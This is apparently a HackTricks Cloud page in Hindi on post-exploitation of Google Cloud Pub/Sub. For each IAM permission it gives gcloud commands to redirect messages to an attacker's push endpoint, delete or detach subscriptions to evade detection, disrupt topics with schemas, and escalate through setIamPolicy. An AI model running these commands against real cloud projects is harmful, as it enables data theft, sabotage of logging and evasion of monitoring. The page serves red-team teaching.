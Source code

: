 # GCP - Pub/Sub Post Exploitation

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
{% endhint %}

## Pub/Sub

Pub/Sub के बारे में अधिक जानकारी के लिए निम्नलिखित पेज देखें:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

किसी टॉपिक में संदेश प्रकाशित करें, अप्रत्याशित डेटा **भेजने** और अप्रत्याशित कार्यक्षमताओं को ट्रिगर करने या कमजोरियों का शोषण करने के लिए उपयोगी:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

संदेश प्राप्त करने से सदस्यता को रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

संदेश प्राप्त करने से रोकने के लिए उपयोगी, शायद पहचान से बचने के लिए।\
यह संभव है कि एक टॉपिक को हटाया जा सके, भले ही उसमें सब्सक्रिप्शन जुड़े हों।
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

इस अनुमति का उपयोग टॉपिक की कुछ सेटिंग्स को अपडेट करने के लिए करें ताकि इसे बाधित किया जा सके, जैसे `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

पिछले किसी भी हमले को करने की अनुमति खुद को दें।

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

सभी संदेशों को एक वेब सर्वर में प्राप्त करें:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

एक subscription बनाएँ और इसका उपयोग **messages pull करने** के लिए करें:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**सब्सक्रिप्शन हटाएं** लॉग प्रोसेसिंग सिस्टम या कुछ इसी तरह को बाधित करने के लिए उपयोगी हो सकता है:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

इस अनुमति का उपयोग कुछ सेटिंग को अपडेट करने के लिए करें ताकि संदेशों को ऐसी जगह पर संग्रहीत किया जा सके जहां आप पहुंच सकते हैं (URL, Big Query table, Bucket) या बस इसे बाधित करने के लिए।

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

अपने आप को किसी भी पहले से टिप्पणी किए गए हमलों को करने के लिए आवश्यक अनुमतियाँ दें।

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

एक schema को एक topic से जोड़ें ताकि संदेश उसे पूरा न करें और इसलिए topic बाधित हो जाए।\
यदि कोई schema नहीं हैं तो आपको एक बनाना पड़ सकता है।

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

यह ऐसा लग सकता है कि एक schema को delete करने से आप ऐसे messages भेज पाएंगे जो schema को पूरा नहीं करते। हालांकि, जैसे ही schema delete हो जाएगा, कोई भी message वास्तव में topic के अंदर नहीं जाएगा। इसलिए यह **बेकार** है:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

अपने आप को पहले से बताए गए किसी भी हमले को करने के लिए आवश्यक अनुमतियाँ दें।

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

यह सभी unACKed संदेशों का एक snapshot बनाएगा और उन्हें subscription में वापस डाल देगा। हमलावर के लिए बहुत उपयोगी नहीं है लेकिन यहाँ है:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

